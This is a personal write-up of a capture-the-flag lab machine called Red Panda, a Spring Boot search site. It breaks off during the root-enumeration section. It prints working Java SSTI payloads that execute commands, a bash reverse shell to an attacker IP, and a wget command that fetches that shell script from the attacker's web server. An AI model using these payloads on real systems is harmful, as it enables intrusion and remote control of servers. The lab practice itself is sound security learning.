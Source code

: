 # User
* `nmap -sV -sC 10.129.227.207`
```nmap
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-06-25 20:33 EDT
Nmap scan report for 10.129.227.207
Host is up (0.015s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT     STATE SERVICE    VERSION
22/tcp   open  ssh        OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 48:ad:d5:b8:3a:9f:bc:be:f7:e8:20:1e:f6:bf:de:ae (RSA)
|   256 b7:89:6c:0b:20:ed:49:b2:c1:86:7c:29:92:74:1c:1f (ECDSA)
|_  256 18:cd:9d:08:a6:21:a8:b8:b6:f7:9f:8d:40:51:54:fb (ED25519)
8080/tcp open  http-proxy
|_http-title: Red Panda Search | Made with Spring Boot
| fingerprint-strings: 
|   GetRequest: 
|     HTTP/1.1 200 
|     Content-Type: text/html;charset=UTF-8
|     Content-Language: en-US
|     Date: Wed, 26 Jun 2024 00:33:10 GMT
|     Connection: close
|     <!DOCTYPE html>
|     <html lang="en" dir="ltr">
|     <head>
|     <meta charset="utf-8">
|     <meta author="wooden_k">
|     <!--Codepen by khr2003: https://codepen.io/khr2003/pen/BGZdXw -->
|     <link rel="stylesheet" href="css/panda.css" type="text/css">
|     <link rel="stylesheet" href="css/main.css" type="text/css">
|     <title>Red Panda Search | Made with Spring Boot</title>
|     </head>
|     <body>
|     <div class='pande'>
|     <div class='ear left'></div>
|     <div class='ear right'></div>
|     <div class='whiskers left'>
|     <span></span>
|     <span></span>
|     <span></span>
|     </div>
|     <div class='whiskers right'>
|     <span></span>
|     <span></span>
|     <span></span>
|     </div>
|     <div class='face'>
|     <div class='eye
|   HTTPOptions: 
|     HTTP/1.1 200 
|     Allow: GET,HEAD,OPTIONS
|     Content-Length: 0
|     Date: Wed, 26 Jun 2024 00:33:10 GMT
|     Connection: close
|   RTSPRequest: 
|     HTTP/1.1 400 
|     Content-Type: text/html;charset=utf-8
|     Content-Language: en
|     Content-Length: 435
|     Date: Wed, 26 Jun 2024 00:33:10 GMT
|     Connection: close
|     <!doctype html><html lang="en"><head><title>HTTP Status 400 
|     Request</title><style type="text/css">body {font-family:Tahoma,Arial,sans-serif;} h1, h2, h3, b {color:white;background-color:#525D76;} h1 {font-size:22px;} h2 {font-size:16px;} h3 {font-size:14px;} p {font-size:12px;} a {color:black;} .line {height:1px;background-color:#525D76;border:none;}</style></head><body><h1>HTTP Status 400 
|_    Request</h1></body></html>
|_http-open-proxy: Proxy might be redirecting requests
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port8080-TCP:V=7.94SVN%I=7%D=6/25%Time=667B61C6%P=x86_64-pc-linux-gnu%r
SF:(GetRequest,690,"HTTP/1\.1\x20200\x20\r\nContent-Type:\x20text/html;cha
SF:rset=UTF-8\r\nContent-Language:\x20en-US\r\nDate:\x20Wed,\x2026\x20Jun\
SF:x202024\x2000:33:10\x20GMT\r\nConnection:\x20close\r\n\r\n<!DOCTYPE\x20
SF:html>\n<html\x20lang=\"en\"\x20dir=\"ltr\">\n\x20\x20<head>\n\x20\x20\x
SF:20\x20<meta\x20charset=\"utf-8\">\n\x20\x20\x20\x20<meta\x20author=\"wo
SF:oden_k\">\n\x20\x20\x20\x20<!--Codepen\x20by\x20khr2003:\x20https://cod
SF:epen\.io/khr2003/pen/BGZdXw\x20-->\n\x20\x20\x20\x20<link\x20rel=\"styl
SF:esheet\"\x20href=\"css/panda\.css\"\x20type=\"text/css\">\n\x20\x20\x20
SF:\x20<link\x20rel=\"stylesheet\"\x20href=\"css/main\.css\"\x20type=\"tex
SF:t/css\">\n\x20\x20\x20\x20<title>Red\x20Panda\x20Search\x20\|\x20Made\x
SF:20with\x20Spring\x20Boot</title>\n\x20\x20</head>\n\x20\x20<body>\n\n\x
SF:20\x20\x20\x20<div\x20class='pande'>\n\x20\x20\x20\x20\x20\x20<div\x20c
SF:lass='ear\x20left'></div>\n\x20\x20\x20\x20\x20\x20<div\x20class='ear\x
SF:20right'></div>\n\x20\x20\x20\x20\x20\x20<div\x20class='whiskers\x20lef
SF:t'>\n\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20<span></span>\n\x20\x20\x2
SF:0\x20\x20\x20\x20\x20\x20\x20<span></span>\n\x20\x20\x20\x20\x20\x20\x2
SF:0\x20\x20\x20<span></span>\n\x20\x20\x20\x20\x20\x20</div>\n\x20\x20\x2
SF:0\x20\x20\x20<div\x20class='whiskers\x20right'>\n\x20\x20\x20\x20\x20\x
SF:20\x20\x20<span></span>\n\x20\x20\x20\x20\x20\x20\x20\x20<span></span>\
SF:n\x20\x20\x20\x20\x20\x20\x20\x20<span></span>\n\x20\x20\x20\x20\x20\x2
SF:0</div>\n\x20\x20\x20\x20\x20\x20<div\x20class='face'>\n\x20\x20\x20\x2
SF:0\x20\x20\x20\x20<div\x20class='eye")%r(HTTPOptions,75,"HTTP/1\.1\x2020
SF:0\x20\r\nAllow:\x20GET,HEAD,OPTIONS\r\nContent-Length:\x200\r\nDate:\x2
SF:0Wed,\x2026\x20Jun\x202024\x2000:33:10\x20GMT\r\nConnection:\x20close\r
SF:\n\r\n")%r(RTSPRequest,24E,"HTTP/1\.1\x20400\x20\r\nContent-Type:\x20te
SF:xt/html;charset=utf-8\r\nContent-Language:\x20en\r\nContent-Length:\x20
SF:435\r\nDate:\x20Wed,\x2026\x20Jun\x202024\x2000:33:10\x20GMT\r\nConnect
SF:ion:\x20close\r\n\r\n<!doctype\x20html><html\x20lang=\"en\"><head><titl
SF:e>HTTP\x20Status\x20400\x20\xe2\x80\x93\x20Bad\x20Request</title><style
SF:\x20type=\"text/css\">body\x20{font-family:Tahoma,Arial,sans-serif;}\x2
SF:0h1,\x20h2,\x20h3,\x20b\x20{color:white;background-color:#525D76;}\x20h
SF:1\x20{font-size:22px;}\x20h2\x20{font-size:16px;}\x20h3\x20{font-size:1
SF:4px;}\x20p\x20{font-size:12px;}\x20a\x20{color:black;}\x20\.line\x20{he
SF:ight:1px;background-color:#525D76;border:none;}</style></head><body><h1
SF:>HTTP\x20Status\x20400\x20\xe2\x80\x93\x20Bad\x20Request</h1></body></h
SF:tml>");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 13.46 seconds
```
* navigating to the site brings you to a red panda search engine
![](Red%20Panda-paste.png)
* Browsing to `/robots.txt` reveals that this is a whitelabel page
* I decided to run a gobuster directory scan against the site to see what I could enumerate: 
```bash
gobuster dir -u http://10.129.227.207:8080 -w /usr/share/wordlists/dirbuster/directory-list-1.0.txt
```
* The first can with a `200 OK` response is for `/stats`, so I browsed to it
![](Red%20Panda-paste-1.png)
* The page seems to be for viewer statistics for the authors of the site; one of which is the target user, woodenk
* clicking on woodenk, his stats page has the option to export a table:
![](Red%20Panda-paste-2.png)
* Exporting the table just allows you to see the site contents as an xml file
* I decided to repeat my steps again in burpsuite to see if anything hinky was occurring with the requests and responses
	* saw nothing suspicious with the either
* Looking at the search result for greg prints "Greg is a hacker. Watch out for his injection attacks!"
	* Going to go out on a limb and say this might be vulnerable to an injection attack
* My first thought was to try a sql injection, but that didn't make much sense since no sql database showed on the nmap scan and the table was an xml file
* My second guess was to try SSTI, using the `${7*7}` parameter
	* This resulted in "You searched for: Error occured: banned characters"
* While the result did not return 49 like I had hoped, I was able to narrow down that `$` is a banned character
* I wanted to see what else was a banned character, so I ran burp intruder fuzz against the search parameter:
![](Red%20Panda-paste-3.png)
* I used the wordlist `/usr/share/wfuzz/wordlist/injections` and set the payload processing to be url encoded
	* The following characters received the same error message:
		* `$`
		* `%`
		* `_`
* I still wanted to explore the ssti route, so my next step was to look for the template that was being used.
* Looking further into the whitelabel error page, I found that it is the default error page for a Spring Boot application
* With this information I started a `ctrl f` search for spring on [payloadsallthethings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md#java---spring) and found the poc payload `*{7*7}`
	* Searching for this in the web app resulted in the output of 49; yippee!
* The next payload I tried was:
```
*{T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime().exec('id').getInputStream())}
```
* This returned the uids and guids, proving that code execution had been achieved
* I did a ping test to ensure that I could reach my box: `ping -c 4 10.10.14.13`
	* That was a success, but no payloads seemed to work
* I decided to make my payload a `.sh` file and host it on a webserver so I could download it to the box:
```bash
#!/bin/bash
bash -i >& /dev/tcp/10.10.14.13/6969 0>&1
```
* After hosting it on a webserver I spun up, I used `wget` to download it to the website:
```
*{T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime().exec('wget http://10.10.14.13:8081/urmom.sh').getInputStream())}
```
* I checked if I had access to execute the payload and saw that I only had `rw` access
* I added execute perms and then ran the payload after setting up my listener
![](Red%20Panda-paste-4.png)
* From here I got the user flag. Yippee!

# Root
* I tried running `sudo -l`, but got the error `sudo: a terminal is required to read the password; either use the -S option to read from standard input or configure an askpass helper`
* I had a feeling that was a result of my noninteractive shell, so I upgraded to an interactive shell:
```bash 
python3 -c 'import pty; pty.spawn("/bin/bash")'
```
* I tried `sudo -l` again, but I needed a password to run that :/
* I looked at the running processes and saw that the site, and therefore my shell, was running off of a root cron job
	* Only problem is I have no clue how to exploit that
![](Red%20Panda-paste-5.png)
* Ran linpeas and saw that rootlogin was enabled for ssh
	* Looked in /etc/ssh for keys
		* found private ssh key, but attempting to ssh as root still needed a passwordcd
* Linpeas also identified the `/opt` folder as not being empty, so I decided to check this out next
	* there was a `cleanup.sh` script that had `x` perms, but it looked to be of no use as it just removes `xml` and `jpg` files
	* 